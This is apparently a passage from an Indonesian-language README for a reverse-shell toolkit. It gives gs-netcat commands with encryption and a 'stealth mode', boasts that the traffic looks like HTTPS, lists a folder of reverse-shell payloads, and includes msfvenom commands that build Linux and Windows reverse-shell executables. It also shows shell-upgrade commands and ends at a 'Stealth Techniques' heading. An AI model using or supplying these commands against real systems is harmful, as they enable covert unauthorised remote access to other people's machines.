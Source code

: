 #### Advanced Gsocket:
```bash
# Dengan encryption yang lebih kuat
gs-netcat -c -s YOUR_SECRET_KEY -i -C aes256

# Dengan stealth mode
gs-netcat -c -s YOUR_SECRET_KEY -i -q

# Test server compatibility
uname -a && ldd --version
```

#### Advantages:
- ✅ End-to-end encryption
- ✅ NAT traversal otomatis
- ✅ Tidak perlu port forwarding
- ✅ Traffic terlihat seperti HTTPS
- ✅ Binary size kecil (~1MB)

## 📁 Struktur Direktori

- **[gsocket/](./gsocket/)**: Setup dan konfigurasi Global Socket
- **[ngrok-setup/](./ngrok-setup/)**: Panduan dan script Ngrok
- **[frp-setup/](./frp-setup/)**: Konfigurasi Fast Reverse Proxy
- **[payloads/](./payloads/)**: Koleksi payload reverse shell

## 🛠️ Tools Tambahan

### Reverse Shell Generators:
```bash
# MSFVenom payloads
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe

# Web-based generators
# https://www.revshells.com/
# https://github.com/swisskyrepo/PayloadsAllTheThings
```

### Upgrading Shells:
```bash
# Upgrade ke full TTY
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z
stty raw -echo; fg
stty rows 24 columns 80
```

## 🔒 Stealth Techniques
